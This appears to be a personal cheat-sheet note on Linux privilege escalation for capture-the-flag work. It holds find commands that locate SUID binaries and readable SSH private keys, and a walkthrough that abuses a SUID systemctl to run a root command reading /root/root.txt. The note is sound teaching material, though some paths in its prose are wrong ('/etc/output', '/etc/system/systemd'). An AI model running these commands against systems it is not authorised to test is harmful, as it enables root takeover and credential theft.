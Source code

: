 ```yaml
---
pinned: true
tags: [Tips]
title: Linux Privilege Escalation Tips
created: '2020-05-03T16:33:51.947Z'
modified: '2020-05-15T19:04:41.708Z'
---
```


# Linux Privilege Escalation Tips

Search for files owned by a given user starting on / and redirect the errors to /dev/null

```
find / -user <username> -type f 2>/dev/null
```

---

Search for files with the SUID bit enabled starting on / and redirect the errors to /dev/null

```
find / -perm /4000 2>/dev/null
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

---

Search for readable SSH private keys (`id_rsa`) in all the users directories

```
find / -name id_rsa -type f -exec ls -ld {} \; 2>/dev/null
```

### SUID

#### Systemctl

[GTFOBins - Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system’s lifecycle. These tasks are known as units, and each unit has a corresponding unit file. We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd. But we don’t have the permission to write to that folder. Instead, we can use an environment variable that will read the contents of **/root/root.txt** and write its output to **/tmp/output** file.

First we create a variable which holds a unique file.

```
eop=$(mktemp).service
```

Then we create an unit file and write it into the variable.

```
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop
```

Inside the unit file we entered a command which will let shell execute the command cat and redirect the output of cat to a file called output in the folder tmp. And finally we use the /bin/systemctl program to enable the unit file.

```
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

Finally we read the contents of the file **/etc/output**

## Automatic PE scripts

PEASS (Privilege Escalation Awesome Scripts SUITE)

[PEASS Github](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
